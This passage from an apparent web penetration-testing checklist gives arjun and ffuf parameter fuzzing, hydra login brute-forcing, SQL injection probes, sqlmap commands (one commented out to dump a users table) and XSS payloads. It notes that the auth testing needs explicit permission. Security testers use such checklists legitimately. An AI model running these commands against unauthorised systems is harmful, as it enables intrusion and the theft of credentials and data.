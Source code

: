 4) Parameter discovery
```bash
# arjun (GET/POST parameter names)
arjun -u "$BASE_URL/index.php" -oT arjun.txt

# ffuf parameter name fuzzing via query
ffuf -u "$BASE_URL/search?FUZZ=test" \
  -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200,301,302,401,403 -t 50

# ffuf parameter name fuzzing via POST body
ffuf -u "$BASE_URL/api" -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "FUZZ=test" \
  -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200,201,204,301,302,401,403
```

5) Auth and session checks (only with explicit permission)
```bash
# Basic/ Digest protected directory brute (example)
hydra -L users.txt -P passwords.txt -f "$TARGET" http-get /admin/

# Form-based login (adjust field names and failure regex)
hydra -L users.txt -P passwords.txt "$TARGET" \
  http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"
```
In Burp, inspect:
- Cookies (HttpOnly/Secure/SameSite), session rotation on login, logout invalidation, and idle timeout.

6) SQL injection
Manual probes:
- Append to parameters: ' " ) OR 1=1-- -  ) AND SLEEP(5)-- -
- Look for DB error messages, boolean/time-based behavior.

sqlmap with URL:
```bash
sqlmap -u "$BASE_URL/items.php?id=1" --batch --risk=2 --level=2 --current-db
sqlmap -u "$BASE_URL/items.php?id=1" --batch --dbs
```
sqlmap with raw request (capture in Burp, save as request.txt):
```bash
sqlmap -r request.txt --batch --risk=2 --level=3 --dbs
# Enumerate further as needed:
# sqlmap -r request.txt -D targetdb --tables
# sqlmap -r request.txt -D targetdb -T users --dump
```

7) Cross-Site Scripting (XSS)
Quick payloads for reflections/forms/comments:
- <script>alert(1)</script>
- "><svg/onload=alert(1)>
- <img src=x onerror=alert(1)>
Use Burp Repeater to test parameters/headers (e.g., Referer, User-Agent) and observe context (HTML, attribute, JS).
